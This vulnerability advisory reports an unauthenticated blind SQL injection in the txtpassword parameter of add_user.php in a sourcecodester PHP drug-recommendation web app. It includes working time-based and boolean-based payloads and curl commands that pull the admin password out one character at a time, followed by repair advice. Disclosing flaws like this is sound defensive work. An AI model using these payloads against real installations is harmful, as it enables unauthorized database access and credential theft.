

# sourcecodester Drug Recommendation System Using Machine Learning, PHP, and MySQL Database V1.0 /Admin/add_user.php?txtpassword= SQL injection (Blind, Unauthenticated)

- **Author:** qwer1230011107

# NAME OF AFFECTED PRODUCT(S)

- Drug Recommendation System Using Machine Learning, PHP, and MySQL Database

## Vendor Homepage

- https://www.sourcecodester.com/php/18278/drug-recommender-web-app-student-project.html

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- （VulDB 账号名：提交时从凭据引用 `vuldb.txt` 读取填入，不落盘、不在报告中展示）

## Vulnerable File

- /Admin/add_user.php

## VERSION(S)

- V1.0

## Software Link

- https://www.sourcecodester.com/php/18278/drug-recommender-web-app-student-project.html （页面内 Download 按钮 → /download-code?nid=18278）

# PROBLEM TYPE

## Vulnerability Type

- SQL injection (blind, INSERT context — time-based / boolean-based)

## Root Cause

- A SQL injection vulnerability was found in the `/Admin/add_user.php` file of the "Drug Recommendation System" project. The `txtpassword` POST parameter is taken from user input without `mysqli_real_escape_string()` (unlike the `txtname`/`txtemail` parameters of the same form, which are escaped) and is concatenated directly into an INSERT statement:

  `Admin/add_user.php:13`
  ```php
  $password = $_POST['txtpassword'];
  ```
  `Admin/add_user.php:30-31`
  ```php
  $query = "INSERT INTO users (name, email, password, role)VALUES ('$name', '$email', '$password', '$role')";
  $result = mysqli_query($conn, $query);
  ```

- In addition, the page's authentication check only sends a redirect header and does not terminate execution (`Admin/add_user.php:5-8`, `header("Location: ...")` without `exit`), so unauthenticated attackers can reach this code path directly.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage (e.g. extracting the plaintext password column via boolean/time-based blind injection), data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Drug Recommendation System", I discovered a critical SQL injection vulnerability in the "/Admin/add_user.php" file. This vulnerability stems from insufficient user input validation of the 'txtpassword' parameter, allowing attackers to inject malicious SQL into an INSERT statement. Therefore, attackers can gain unauthorized access to databases, extract arbitrary table contents character by character through a boolean/time-based side channel, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability location:

- 'txtpassword' parameter (POST), `/Admin/add_user.php`

## Payload:

```
Parameter: txtpassword (POST)
    Type: syntax error (quote breakout proves injection reaches the query)
    Payload: txtpassword=x'
    Result: PHP Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax;
            ... to use near '' at line 1 in ...\Admin\add_user.php on line 31

    Type: time-based blind (INSERT VALUES parenthesis balancing)
    Payload: txtpassword=x', (SELECT SLEEP(5)))-- -
    Result: response time 5.03s (baseline 0.03s)

    Type: boolean-based blind (derived table bypasses MySQL error 1093
          "can't specify target table for update in FROM clause")
    Payload: txtpassword=x', IF((SELECT ASCII(SUBSTRING(password,1,1)) FROM
             (SELECT password FROM users WHERE id=2) t)=101, SLEEP(5), 0))-- -
    Result: condition TRUE  -> 5.03s
            condition FALSE -> 0.03s
```

## Request / Response evidence (local reproduction):

```bash
# time-based blind — SLEEP(5) executes inside the INSERT statement
$ curl -s -o /dev/null -w "time=%{time_total}s" -X POST "http://127.0.0.1:8137/Admin/add_user.php" \
    --data-urlencode "btnadd=1" \
    --data-urlencode "txtname=Probe" \
    --data-urlencode "txtemail=p@example.com" \
    --data-urlencode "txtpassword=x', (SELECT SLEEP(5)))-- -" \
    --data-urlencode "cmdrole=Doctor"
  time=5.034200s

# boolean-based blind — first char of admin password == 'e' (TRUE -> 5s delay)
$ curl -s -o /dev/null -w "time=%{time_total}s" -X POST "http://127.0.0.1:8137/Admin/add_user.php" \
    --data-urlencode "btnadd=1" --data-urlencode "txtname=Probe" \
    --data-urlencode "txtemail=p@example.com" \
    --data-urlencode "txtpassword=x', IF((SELECT ASCII(SUBSTRING(password,1,1)) FROM (SELECT password FROM users WHERE id=2) t)=101, SLEEP(5), 0))-- -" \
    --data-urlencode "cmdrole=Doctor"
  time=5.032809s

# same request with an intentionally FALSE condition ('z') -> immediate response
  time=0.033094s
```

Note: the injected expression executes before the row insert is rolled back by MySQL 8 strict mode (enum truncation on the `role` column), so the time/boolean channel is fully usable to exfiltrate any table's data character by character.

## Screenshot (browser-measured reproduction)

Browser-side reproduction of the same payload (two POST requests issued from the authenticated session, measured with `performance.now()`); the result banner is rendered from the actually measured values:



  - baseline (`txtpassword=NormalPass123`) → **255 ms**
  - injected (`txtpassword=x', (SELECT SLEEP(5)))-- -`) → **5040 ms** — `SLEEP(5)` executed inside the INSERT statement


# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepared statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format. Apply the same escaping/binding to **every** parameter — `txtpassword` is currently the only unescaped field of this form.

3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as 'root' or 'admin') for daily operations.

4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
